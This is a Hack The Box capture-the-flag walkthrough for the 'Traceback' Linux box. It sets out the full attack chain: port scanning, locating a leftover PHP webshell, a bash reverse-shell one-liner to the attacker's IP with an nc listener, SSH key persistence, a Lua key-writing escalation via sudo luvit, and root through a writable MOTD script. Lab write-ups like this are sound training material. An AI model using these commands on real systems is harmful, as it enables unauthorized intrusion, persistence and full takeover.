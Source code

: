 # 🔍 HTB: Traceback — Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
**Tags:** `webshell`, `lua`, `luvit`, `motd`, `ssh`, `cron privesc`

---

## 📡 Recon

### Full TCP Port Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.181
```

### Targeted Service Detection

```bash
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.181
```

- **Ports Open**: 22 (SSH), 80 (HTTP)
- Apache/2.4.29, OpenSSH 7.6p1 → likely Ubuntu 18.04

---

## 🌐 [Web Enumeration](HTTP)

### Webpage Source

- Page shows “owned” message by Xh4H
- Comment: `<!--Some of the best web shells that you might need ;)-->`
- Google search → list of known PHP webshell names

### Create Wordlist of Common Webshells

```bash
vim php_shells.txt  # Add shell names like smevk.php, cmd.php, r57.php etc.
```

### Gobuster with Wordlist

```bash
gobuster dir -u http://10.10.10.181 -w php_shells.txt
```

✅ **Found**: `/smevk.php`

---

## 🐚 Shell as webadmin

### Webshell Access

- Login: `admin:admin` (from source)
- Use Reverse Shell payload:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```

### Listener

```bash
nc -lvnp 443
```

🎯 Shell obtained as `webadmin`

---

## 🔐 Persist Access (Optional)

### Add SSH Key via Webshell

```bash
mkdir ~/.ssh
echo "your-ssh-pub-key" > ~/.ssh/authorized_keys
```

Then [SSH](SSH) in:

```bash
ssh webadmin@10.10.10.181 -i ~/keys/id_rsa
```

---

## 🧑‍💻 Privilege Escalation: webadmin → sysadmin

### Check for Sudo Rights

```bash
sudo -l
```

✅ `webadmin` can run `/home/sysadmin/luvit` as `sysadmin` without password

---

### Lua-based SSH Key Write Exploit

```lua
-- Save as /dev/shm/key.lua
authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
authkeys:write("ssh-ed25519 AAAA... your-key-here ... user@host\n")
authkeys:close()
```

Run it:

```bash
sudo -u sysadmin /home/sysadmin/luvit /dev/shm/key.lua
```

🎯 Now SSH as `sysadmin`:

```bash
ssh sysadmin@10.10.10.181 -i ~/keys/id_rsa_sysadmin
```

✅ Get `user.txt`

---

## 🧑‍🔧 Privilege Escalation: sysadmin → root

### MOTD Scripts Writable

```bash
ls -l /etc/update-motd.d/
```

✅ Writable by `sysadmin` group (e.g., 00-header)

---

### Add Root Key via MOTD

```bash
echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> /etc/update-motd.d/00-header
```

Immediately login again as any user to trigger script:

```bash
ssh webadmin@10.10.10.181
```

🎯 Now SSH as `root`:

```bash
ssh root@10.10.10.181 -i ~/keys/id_rsa_sysadmin
```

✅ Grab `root.txt`

---

## 🧩 Beyond Root

### Cron Discovery (via pspy or manually)

```bash
crontab -l
```

Shows:

```cron
* * * * * /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
* * * * * sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

- Scripts overwritten every 30 seconds from backup
- Acts as cleanup mechanism

### Enumeration Tips

- Group-writable scripts in MOTD folder = privesc vector
- LinPEAS / LinEnum with `-t` will detect this